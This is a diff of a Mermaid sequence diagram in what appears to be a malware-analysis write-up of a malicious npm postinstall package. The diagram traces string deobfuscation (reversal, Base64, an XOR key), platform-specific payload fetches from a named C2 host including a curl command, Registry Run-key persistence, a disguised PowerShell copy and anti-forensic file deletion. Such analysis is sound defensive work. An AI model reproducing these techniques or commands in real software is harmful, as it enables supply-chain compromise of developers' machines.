

The second of 6 diagrams in ATTACK_FLOW.md (brianclaridge/.axios-rat-helper), drawn with Mermaid before and after one commit. The commit also changed other lines of this file, not shown here.

First line of the commit message:
Fix mermaid diagram rendering on GitHub

````diff
--- a/ATTACK_FLOW.md
+++ b/ATTACK_FLOW.md
@@ -70,43 +70,42 @@
 ```mermaid
 sequenceDiagram
     participant npm
     participant Node as node setup.js
     participant Decode as Deobfuscation
     participant OS as OS Detection
-    participant C2 as sfrclak.com:8000
+    participant C2 as C2 Server
     participant Disk as Local Filesystem
 
     npm->>Node: postinstall hook triggers
-    Node->>Decode: Read stq[] encoded array
+    Node->>Decode: Read stq encoded array
     Decode->>Decode: Reverse each string
     Decode->>Decode: Base64 decode
-    Decode->>Decode: XOR with key "OrDeR_7077"<br/>index = 7 * i² % 10
-    Decode-->>Node: Decoded strings (paths, URLs, commands)
+    Decode->>Decode: XOR decrypt with key OrDeR_7077
+    Decode-->>Node: Decoded strings
 
     Node->>OS: process.platform check
 
-    alt macOS (darwin)
-        Node->>Disk: Write AppleScript to /tmp/*.scpt
-        Node->>OS: /usr/bin/osascript /tmp/*.scpt
-        OS->>C2: GET /6202033 (fetch binary)
+    alt macOS darwin
+        Node->>Disk: Write AppleScript to /tmp
+        Node->>OS: osascript executes .scpt
+        OS->>C2: GET /6202033 fetch binary
         C2-->>Disk: Write /Library/Caches/com.apple.act.mond
         Disk->>OS: /bin/zsh executes binary
-    else Windows (win32)
-        Node->>Disk: Copy powershell.exe → %PROGRAMDATA%\wt.exe
-        Node->>Disk: Write %TEMP%\6202033.vbs
-        Node->>Disk: Write %TEMP%\6202033.ps1
-        Node->>Disk: Write %PROGRAMDATA%\system.bat
-        Node->>Disk: Registry: HKCU\...\Run\MicrosoftUpdate → system.bat
-        Disk->>OS: wt.exe -NoProfile -ep Bypass 6202033.ps1
+    else Windows win32
+        Node->>Disk: Copy powershell.exe to ProgramData as wt.exe
+        Node->>Disk: Write 6202033.vbs and 6202033.ps1 to TEMP
+        Node->>Disk: Write system.bat to ProgramData
+        Node->>Disk: Set Registry Run key MicrosoftUpdate
+        Disk->>OS: wt.exe runs 6202033.ps1
     else Linux
-        Node->>OS: bash -c "curl sfrclak.com:8000/6202033"
-        OS->>C2: GET /6202033 (fetch python script)
+        Node->>OS: bash curl to C2
+        OS->>C2: GET /6202033 fetch python script
         C2-->>Disk: Write /tmp/ld.py
-        OS->>OS: nohup python3 /tmp/ld.py &
+        OS->>OS: nohup python3 /tmp/ld.py
     end
 
     Note over Node,Disk: Anti-forensics cleanup
-    Node->>Disk: fs.unlink(setup.js)
-    Node->>Disk: Delete package.json (malicious)
-    Node->>Disk: Rename package.md → package.json (clean)
+    Node->>Disk: Delete setup.js
+    Node->>Disk: Delete malicious package.json
+    Node->>Disk: Rename package.md to package.json
 ```
````
